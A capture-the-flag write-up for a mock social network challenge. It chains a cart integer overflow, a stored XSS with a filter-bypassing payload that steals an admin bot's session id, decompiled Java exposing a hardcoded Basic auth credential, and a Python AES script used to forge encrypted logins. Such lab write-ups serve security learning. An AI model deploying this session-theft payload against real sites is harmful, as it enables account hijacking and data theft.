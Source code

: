 This is a social media application in which we can buy subscriptions. The problem only 20€ in credits are available and the sub costs 30. 
Looking around there is an underflow on the cart  -2,147,483,648 to 2,147,483,647 that is a integer of 4 bytes, some quick maths shows that at aprice per unit of 39 we need 55063684 units to go negative and then add another 55063684 to be positive again but below 20€


![Pasted image 20221016161722](https://user-images.githubusercontent.com/32242199/196743511-77864f0b-3cb6-42ca-9531-c5836be37496.png)


We are premium now and with the cool sub we have some new followers like BigFish the problem with this user is that he refused to go to our links so it wont help much as this user cant visit links, 

The Idea is to leverage the xss on the profile page to grab the session id that is sitting on the bottom of the visits page:

``<imimgg src=x onerror=alert(1) />``

![Pasted image 20221016203101](https://user-images.githubusercontent.com/32242199/196744470-5c216f0c-fac8-4bf2-a82a-54d8b4e9b3e6.png)

After checking my followers I found a new follower follow it back and liked his post so now  I can chat with him. He will love to visit my xss:

![Pasted image 20221016203040](https://user-images.githubusercontent.com/32242199/196744698-74dd259a-d8ad-4a23-ab4d-8a26fe9a4c0a.png)

This is going to be the payload to steal the sessid 

```js
a=new XMLHttpRequest();
a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/visits',!1);
a.send('');
x=a.responseText;
s=x.match(/id=\"sessid\">.{32}/g)
a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/profile/abtsecabt'+s,!1);
a.send('')
```

The server is removing some strings after trial and error 

```js
<scscriptript>a=new XMLHttppReRequest();a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/visits',!1);a.send('');x=a.responsseTeText;s=x.match(/id=\"sessid\">.{32}/g);a.open("GET",'/eab7d078f560ffad719388fde466d912980d6024/profile/abtsecabt?'+s,!1);a.send('')</scscriptript>
```


So After testing it against my self I got the payload right and its time to send it to the victim
![Pasted image 20221019150659](https://user-images.githubusercontent.com/32242199/196745183-3e49e658-c253-4982-97cd-7dc31f741395.png)

And now we have his session id ``vnkyk87birxbiqs78excd1o23tf8w9gy``
![Pasted image 20221019150803](https://user-images.githubusercontent.com/32242199/196745253-0b962d00-c584-4d0c-8557-d89477bdfd0d.png)


Now we are admins! Most of the features are now disable but on saved messages there is an interesting link:
![Pasted image 20221019150953](https://user-images.githubusercontent.com/32242199/196745449-8a7785fe-a5a4-444a-a6a3-827af507e023.png)

http://gamebox3.reply.it/eab7d078f560ffad719388fde466d912980d6024/static/5c6039c8bb7fc4b8bb2f23c12939742c/ofish-administration.jnlp 

The link points to a jnlp file that contains a jar so lets use jd-gui to see whats inside,  the code is pretty much a class login acting as a  loggin wrapper on a hidden endpoint of the app:
```java
public String performLogin(String paramString1, String paramString2) {
    try {
      URL uRL = new URL("http://gamebox3.reply.it/eab7d078f560ffad719388fde466d912980d6024/login");
      HttpURLConnection httpURLConnection = (HttpURLConnection)uRL.openConnection();
      httpURLConnection.setRequestMethod("POST");
      httpURLConnection.setDoOutput(true);
      httpURLConnection.setRequestProperty("Authorization", "Basic ZmlzaDpQclJncW9WUSVRNnptakF4WFRqOwo=");
      httpURLConnection.setRequestProperty("Content-Type", "application/json");
      httpURLConnection.setRequestProperty("Accept", "application/json");
      String str1 = "{\"username\": \"" + paramString1 + "\", \"password\": \"" + paramString2 + "\"}";
      try (OutputStream null = httpURLConnection.getOutputStream()) {
        byte[] arrayOfByte = str1.getBytes("utf-8");
        outputStream.write(arrayOfByte, 0, arrayOfByte.length);
      } catch (Exception exception) {
        exception.printStackTrace();
        return "Fail";
      } 
```
Then we have a function to encrypt passwords with the key and the salt on it:

```java
  public static String encrypt(String paramString1, String paramString2) throws Exception {
    byte[] arrayOfByte1 = getRandomIv();
    String str = "ThisIsTheSuperSecretKey";
    SecretKey secretKey = getSecretKey(str, paramString1);
    Cipher cipher = initCipher(1, secretKey, arrayOfByte1);
    byte[] arrayOfByte2 = cipher.doFinal(paramString2.getBytes());
    byte[] arrayOfByte3 = ByteBuffer.allocate(arrayOfByte1.length + arrayOfByte2.length).put(arrayOfByte1).put(arrayOfByte2).array();
    return Base64.getEncoder().encodeToString(arrayOfByte3);
```

We can also notice the autorization bearer ``Basic ZmlzaDpQclJncW9WUSVRNnptakF4WFRqOwo=``
That reveal the ``fish:PrRgqoVQ%Q6zmjAxXTj;`` so we will start by trying with those creds using a python script to encrypt with the same key and salt
```python
import base64
import hashlib

from Cryptodome.Cipher import AES  # from pycryptodomex
from Cryptodome.Random import get_random_bytes

HASH_NAME = "SHA256"
IV_LENGTH = 16
ITERATION_COUNT = 65536
KEY_LENGTH = 32


def pad(s): return s + (IV_LENGTH - len(s) % IV_LENGTH) * chr(IV_LENGTH - len(s) % IV_LENGTH)


def unpad(s): return s[0:-ord(s[-1:])]


def get_secret_key(password, salt):
    return hashlib.pbkdf2_hmac(HASH_NAME, password.encode(), salt.encode(), ITERATION_COUNT, KEY_LENGTH)


def encrypt(password, salt, message):
    secret = get_secret_key(password, salt)
    message = pad(message)
    iv = get_random_bytes(IV_LENGTH)
    cipher = AES.new(secret, AES.MODE_CBC, iv)
    cipher_bytes = base64.b64encode(iv + cipher.encrypt(message.encode("utf8")))
    return bytes.decode(cipher_bytes)


def decrypt(password, salt, cipher_text):
    secret = get_secret_key(password, salt)
    decoded = base64.b64decode(cipher_text)
    iv = decoded[:AES.block_size]
    cipher = AES.new(secret, AES.MODE_CBC, iv)
    original_bytes = unpad(cipher.decrypt(decoded[IV_LENGTH:]))
    return bytes.decode(original_bytes)


f_salt = "aPinchOfSalt"
secret_key = "ThisIsTheSuperSecretKey"
plain_text = "PrRgqoVQ%Q6zmjAxXTj"

cipherText = encrypt(secret_key, f_salt, plain_text)
print("CipherText: " + cipherText)

decryptedMessage = decrypt(secret_key, f_salt, cipherText)
print("PlainText: " + decryptedMessage)
```

Running it we had:
```
CipherText: JaarSP87i5SR+DU+4Ho6p8l/za1Q9G1n3da2WvN7j62kc9dNbEuUjiDHM2GTkgMJ
PlainText: PrRgqoVQ%Q6zmjAxXTj
```

If we build a request like the one in the java code we got this:
![Pasted image 20221019174856](https://user-images.githubusercontent.com/32242199/196745999-794e3128-ea7e-4fcb-9cc7-7b89ea9277df.png)


``Admin:OfishIsTheBestSOCIALnEtWoRk1@``
Lets encrypt that pass and try again
```
CipherText: t+BshbebV9p3IbgQFD4aeh193fWh/V2jkcMu90AinkRC/DZe16Pzyqh4oh1tk8zl
PlainText: OfishIsTheBestSOCIALnEtWoRk1@

```

And now we have the right credentials and the flag
![Pasted image 20221019175150](https://user-images.githubusercontent.com/32242199/196746079-8f08c4fd-257c-411c-883f-cc0a3bd38c21.png)


